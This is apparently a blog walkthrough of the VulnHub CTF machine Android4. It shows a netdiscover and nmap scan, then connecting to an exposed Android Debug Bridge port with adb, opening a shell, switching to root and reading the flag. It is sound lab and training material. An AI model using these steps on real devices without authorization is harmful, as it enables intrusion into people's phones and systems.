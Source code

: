 ```yaml
---
title: Android4 Walkthrough
author: alex
date: Wed 15 Nov 14:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
image:
  path: /assets/img/android.png
  alt: Android Logo.
---
```


This is going to be a quick one - today I'm hacking into **Android4**! It is an Android-based VM you can compromise in a couple of simple steps using **ADB** or **PhoneSploit**. It is a good VM to start with **ADB**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation

## Tools Used

1. ADB

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                                              
                                                                                                                  
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                         
 192.168.1.52    08:00:27:d6:b0:bb      1      60  PCS Systemtechnik GmbH
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.52
```

And the output...

```
PORT      STATE SERVICE VERSION

5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VirtualBox; device: x86)

8080/tcp  open  http    PHP cli server 5.5 or later
|_http-title: Deface by Good Hackers
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   1024 b3:98:65:98:fd:c0:64:fe:16:d6:30:36:aa:2b:ef:6b (DSA)
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)

MAC Address: 08:00:27:D6:B0:BB (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 49.709 days (since Tue Sep 26 21:45:34 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see 3 ports but the one that should interest us is **port 5555**: the **ADB port**. Let's fire **ADB** and connect to our target:

```
adb connect 192.168.1.52
```

Now we are connected to the target. Let's open up a shell for us:

```
adb shell
```

And as we can see we get a shell! In order to compromise the VM we just need to change to the root user:

```
su root
```

That easy! Now we can `cat /data/root/flag.txt`:

**ANDROID{u_GOT_root_buddy}**
